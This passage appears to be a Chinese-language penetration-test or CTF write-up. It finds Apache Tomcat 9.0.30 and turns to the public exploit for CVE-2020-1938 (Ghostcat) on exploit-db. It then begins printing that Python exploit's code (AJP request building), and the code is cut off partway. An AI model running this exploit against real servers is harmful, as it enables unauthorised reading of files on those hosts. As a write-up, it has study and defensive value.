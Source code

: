 nmap

[![](assets/1706771526-44399fd57ad8707e1776ac1c7b8050f0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129223016-ebd93bde-beb2-1.png)

## 漏洞分析

这里知道了Apache Tomcat的信息，从exploit找一下对应poc

找到[https://www.exploit-db.com/exploits/48143](https://www.exploit-db.com/exploits/48143) ，发现CVE-2020-1938适用于Apache Tomcat 9.0.30

```plain
#!/usr/bin/python3
# Author: 00theway

import socket
import binascii
import argparse
import urllib.parse

debug = False


def log(type, *args, **kwargs):
    if type == 'debug' and debug == False:
        return
    elif type == 'append' and debug == True:
        return
    elif type == 'append':
        kwargs['end'] = ''
        print(*args, **kwargs)
        return
    print('[%s]' % type.upper(), *args, **kwargs)


class ajpRequest(object):
    def __init__(self, request_url, method='GET', headers=[], attributes=[]):
        self.request_url = request_url
        self.method = method
        self.headers = headers
        self.attributes = attributes

    def method2code(self, method):
        methods = {
            'OPTIONS': 1,
            'GET': 2,
            'HEAD': 3,
            'POST': 4,
            'PUT': 5,
```